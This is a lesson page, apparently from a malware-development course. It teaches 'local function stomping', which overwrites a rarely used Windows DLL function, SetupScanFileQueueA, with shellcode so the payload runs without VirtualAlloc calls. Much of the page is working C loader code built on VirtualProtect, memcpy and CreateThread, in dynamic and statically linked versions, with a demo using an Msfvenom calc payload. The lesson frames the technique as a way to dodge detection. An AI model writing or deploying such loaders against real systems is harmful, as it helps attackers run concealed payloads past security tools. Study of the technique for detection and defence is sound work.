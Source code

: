 44. Local Function Stomping Injection[**44. Local Function Stomping Injection**](https://maldevacademy.com/modules/44)
=================================================================================

**Local Function Stomping Injection**
-------------------------------------

### **Introduction**

The previously demonstrated mapping injection modules were used to avoid the usage of `VirtualAlloc/Ex` WinAPI calls. This module will demonstrate another method that avoids the usage of these WinAPIs.

### **Function Stomping**

The term "stomping" refers to the act of overwriting or replacing the memory of a function or other data structure in a program with different data.

Function stomping is a technique where the original function's bytes are replaced with new code resulting in the function being replaced or no longer working as intended. Instead, the function will execute different logic. To implement this, a sacrificial function address is required to be stomped.

### **Choosing a Target Function**

Retrieving the address of a function locally is simple, but which function is being retrieved is the main concern with this technique. Overwriting a commonly used function can result in the uncontrolled execution of the payload or the process can crash. Therefore it should be clear that targeting functions exported from `ntdll.dll`, `kernel32.dll` and `kernelbase.dll` is risky. Instead, less commonly used functions should be targeted such as `MessageBox` since it will be rarely used by the operating system or other applications.

### **Using The Stomped Function**

When a target function's bytes are replaced with that of the payload's, the function cannot be used anymore unless it is specifically for payload execution. For example, if the target function is `MessageBoxA` then the binary should only call `MessageBoxA` once, which is when the payload will be executed.

### **Local Function Stomping Code**

For the code demonstration below, the target function is [SetupScanFileQueueA](https://learn.microsoft.com/en-us/windows/win32/api/setupapi/nf-setupapi-setupscanfilequeuea). This is a completely random function but is unlikely to cause any problems if it's overwritten. Based on Microsoft's documentation, the function is exported from `Setupapi.dll`. Therefore the first step would be to load `Setupapi.dll` into the local process memory using `LoadLibraryA` and then retrieve the function's address using `GetProcAddress`.

The next step would be to stomp the function and replace it with the payload. Ensure the function can be overwritten by marking its memory region as readable and writable using `VirtualProtect`. Next, the payload is written into the function's address and finally, `VirtualProtect` is used again to mark the region as executable (`RX` or `RWX`).


```
#define		SACRIFICIAL_DLL          "setupapi.dll"#define		SACRIFICIAL_FUNC         "SetupScanFileQueueA"// ...

BOOL WritePayload(IN PVOID pAddress, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	DWORD	dwOldProtection		= NULL;


	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)){
		printf("[!] VirtualProtect [RW] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	memcpy(pAddress, pPayload, sPayloadSize);

	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect [RWX] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}



int main() {

	PVOID		pAddress	= NULL;
	HMODULE		hModule		= NULL;
	HANDLE		hThread		= NULL;


	printf("[#] Press <Enter> To Load \"%s\" ... ", SACRIFICIAL_DLL);
	getchar();

	printf("[i] Loading ... ");
	hModule = LoadLibraryA(SACRIFICIAL_DLL);
	if (hModule == NULL){
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] DONE \n");



	pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
	if (pAddress == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}


	printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(pAddress, Payload, sizeof(Payload))) {
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateThread(NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;

}


```
### **Inserting DLL Into Binary**

Instead of loading the DLL using `LoadLibrary` and then retrieving the target function's address with `GetProcAddress`, it's possible to statically link the DLL into the binary. Using the pragma comment compiler directive allows for this, as shown below.


```
#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address Table
```
The target function can then be simply retrieved using the address-of-operator (e.g. `&SetupScanFileQueueA`). The code snippet below updates the previous code snippet to use the pragma comment directive.


```
#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address Table// ...


int main() {

	HANDLE		hThread			= NULL;


	printf("[+] Address Of \"SetupScanFileQueueA\" : 0x%p \n", &SetupScanFileQueueA);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload))) { // Using the address-of operator
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;

}


```
### **Demo**

Retrieving `SetupScanFileQueueA`'s address.




[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-109438900-53f68143-4143-4be4-978c-4c38e9b4f0d4.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-109438900-53f68143-4143-4be4-978c-4c38e9b4f0d4.png)The original bytes of the `SetupScanFileQueueA` function.

[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-209438901-b436065b-17a9-43b2-86a9-da708329b4c7.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-209438901-b436065b-17a9-43b2-86a9-da708329b4c7.png)Replacing the function's bytes with the Msfvenom calc payload.

[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-309438902-a96c9c50-7ac1-42f9-918f-992a2ef749d6.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-309438902-a96c9c50-7ac1-42f9-918f-992a2ef749d6.png)Running the payload.

[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-409438904-bfacfa89-e6cb-4903-9cd1-7a55c9b66697.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-409438904-bfacfa89-e6cb-4903-9cd1-7a55c9b66697.png)